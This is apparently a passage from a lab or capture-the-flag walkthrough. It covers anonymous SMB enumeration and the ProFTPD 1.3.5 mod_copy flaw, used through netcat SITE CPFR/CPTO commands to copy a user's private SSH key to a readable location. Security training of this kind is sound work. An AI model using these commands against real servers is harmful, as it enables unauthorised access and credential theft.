 ### 1.2 SMB Share Enumeration

```bash
smbclient //10.10.82.31/anonymous -N
```

* **Result:** Only `log.txt` is present in `/home/kenobi/share`.

```bash
get log.txt
```

* **`log.txt` contains:**

  * Evidence that ProFTPD is running as user `kenobi`.
  * Confirmation that an SSH key pair was generated at `/home/kenobi/.ssh/id_rsa`.

---

## 2. Exploitation & Initial Access

### 2.1 ProFTPD `mod_copy` Vulnerability

Because ProFTPD 1.3.5 includes the `mod_copy` module, unauthenticated clients can use these commands to copy arbitrary files. Since ProFTPD is running under the `kenobi` user, it can read `/home/kenobi/.ssh/id_rsa`.

#### 2.1.1 Verify FTP Banner with Netcat

```bash
nc 10.10.82.31 21
```

```text
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.82.31]
```

#### 2.1.2 Copy Kenobi’s Private Key to a Writable Location

> **Commands (typed in raw netcat session):**

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
QUIT
```

* **`SITE CPFR /home/kenobi/.ssh/id_rsa`**: Tells ProFTPD to “copy from” Kenobi’s private key.

  * Response: `350 File or directory exists, ready for destination name`
* **`SITE CPTO /var/tmp/id_rsa`**: Tells ProFTPD to “copy to” `/var/tmp/id_rsa`.

  * Response: `250 Copy successful`
* **`QUIT`**: Closes the FTP session.
* **Result:** The file `/home/kenobi/.ssh/id_rsa` is now at `/var/tmp/id_rsa`.

---
